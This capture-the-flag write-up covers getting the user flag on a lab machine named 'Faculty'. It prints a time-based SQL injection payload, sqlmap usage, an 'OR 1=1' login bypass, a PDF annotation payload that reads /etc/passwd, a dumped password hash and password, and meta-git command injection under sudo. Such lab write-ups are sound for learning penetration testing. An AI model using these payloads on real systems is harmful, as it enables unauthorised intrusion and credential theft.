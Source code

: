 # Faculty

## User Flag

Immediately after adding faculty.htb to my notes, I immediatly tried accessing a webpage and was greeted with a login page right away.

After performing a quick nmap scan, I found that it has an open port on 22 and 80.

The /login.php page presents us with an option to input a faculty id number. When inputing a number it simply sends a POST request in the form of form data.

Next I'm going to open the request in Burp Suite and work from there.

But before I do that, I should get a good understanding of the systems I'm breaking into.

### Fuzzing Directories

Next, I fuzzed the web directories to see what I could make out of them.

```
ffuf -u http://faculty.htb/FUZZ -w directory-list-1.0.txt
```

The directory I pulled back was: /admin/

Accessing http://faculty.htb/admin/ presented me with a dashboard for a college. I was currently logged in as user 27, which I'm not quite sure why.

Poking around, there is potential for LFI as well as a logout box which will allow you to login as other users.

### SQL Injections

Looks like it responded to a basic ' SQLi payload. So I'm going to manually try with some other payloads until I get a hit.

Eventually I got one, I know it succeeded because it ran SLEEP(5) and caused the server to delay for 5 seconds.

```
id_no=2100935'+AND+(SELECT+1+FROM+(SELECT(SLEEP(5)))a)+AND+'1'='1
```

Afterward, I saved my successful request and shoved it into sqlmap. Which I am hoping will give me a table dump.

```
sqlmap -r request.req
```

Notably I retrieved a database called scheduling_db.

It contains 6 tables inside.

* scheduling_db
	* class_schedule_info
	* courses
	* faculty
	* schedules
	* subjects
		* id
		* subject
		* description
	* users

We were also able to gain an admin password hash as well as some ids.
```
admin:1fecbe762af147c1176a0fc2c722a345

id | id_no
1	63033226
2	85662050
3	30903070
```

Turns out we can use these id numbers to log into the system without any other need for credentials!

It should also be noted that the admin login page on /admin/ can be bypassed with a simple SQL injection.

```
' OR 1=1#
poop
```

### Admin Dashboard

After poking around with burp proxy, I found some interesting results especially stemming from one particular piece of functionality: the pdf download button.

As part of the POST request, it sends in a chunk of base64 encoded data.

After fiddling around with it in the Burp decoder, I found out that it's encoded with base64 then url encoding (which I found some readable characters in) then url encoding again.

From there, you can dig up some unique html.

I used this website to beautify it: https://www.freeformatter.com/html-formatter.html

The most interesting line to me was this guy:

```
<annotation file="/etc/passwd" content="/etc/passwd"  icon="Graph" title="Attached File: /etc/passwd" pos-x="195" />
```

Now using that payload and replacing the original payload with it (and exploiting other pages), we can find the following credentials:

```
gbyolo:Co.met06aci.dly53ro.per
```

That in turn allows me to login as the user. But the user flag isn't inside of gbyolo's home.

### Securing the first flag

Immediately I tried running sudo -l inside of it and after putting in gbyolo's password, I found that meta-git can run on sudo without a password.

With this, I found this bug report online that helps me do RCE: https://hackerone.com/reports/728040

So I ran the following: 

```
sudo -u developer meta-git clone 'piss | ls /home/developer'
```

That shows the following files are in the developer's directory:

**sendmail.sh  user.txt**

So now I'm going to cat it.

```
sudo -u developer meta-git clone 'piss | cat /home/developer/user.txt'
```

That gave me the first flag!!


